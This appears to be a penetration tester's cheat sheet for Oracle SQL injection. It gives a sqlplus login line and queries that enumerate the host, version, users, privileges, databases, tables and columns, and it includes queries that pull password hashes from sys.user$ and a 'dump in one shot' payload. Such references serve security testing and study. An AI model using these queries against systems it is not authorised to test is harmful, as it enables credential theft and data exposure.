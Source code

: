 # sqli oracle-sql

## sqlPlus

```
sqlplus USER/PASSWORD@IP/SID [as sysdba]
```

## oracle-sql commands

* [cheatography.com/dormidera/cheat-sheets/oracle-sql-injection/](https://cheatography.com/dormidera/cheat-sheets/oracle-sql-injection/)

**SELECT statements MUST have a FROM clause. Use dummy table `dual`.**

```bash
# comments
--
/* <blah> */

# concat
SELECT 'A'||'B' FROM dual

# hostname
SELECT host_name FROM v$instance;
SELECT UTL_INADDR.get_host_name FROM dual;

# version
SELECT version FROM v$instance;
SELECT banner FROM v$version WHERE rownum=1

# users
SELECT user FROM dual
SELECT username FROM all_users
SELECT name FROM sys.user$

# user privs
SELECT * from user_role_privs;

# password (DES)
# astatus = if account is locked
SELECT password, astatus FROM sys.user$
SELECT name,spare4 FROM sys.user$

# databases
SELECT global_name FROM global_name
SELECT name FROM v$database
SELECT instance_name FROM v$instance
SELECT SYS.DATABASE_NAME FROM DUAL
| SELECT DISTINCT owner FROM all_tables

# tables
SELECT table_name FROM all_tables;
# DIOS: dump in one shot
select rtrim(xmlagg(xmlelement(e, table_name || ',')).extract('//text()').extract('//text()') ,',') from all_tables
| (SELECT replace(wm_concat('<li>'||table_name),',','') FROM all_tables)

# cols
SELECT column_name FROM all_tab_columns WHERE table_name = '<table>'

# 9th row
SELECT username FROM (SELECT ROWNUM r, username FROM all_users ORDER BY username) WHERE r=9
```
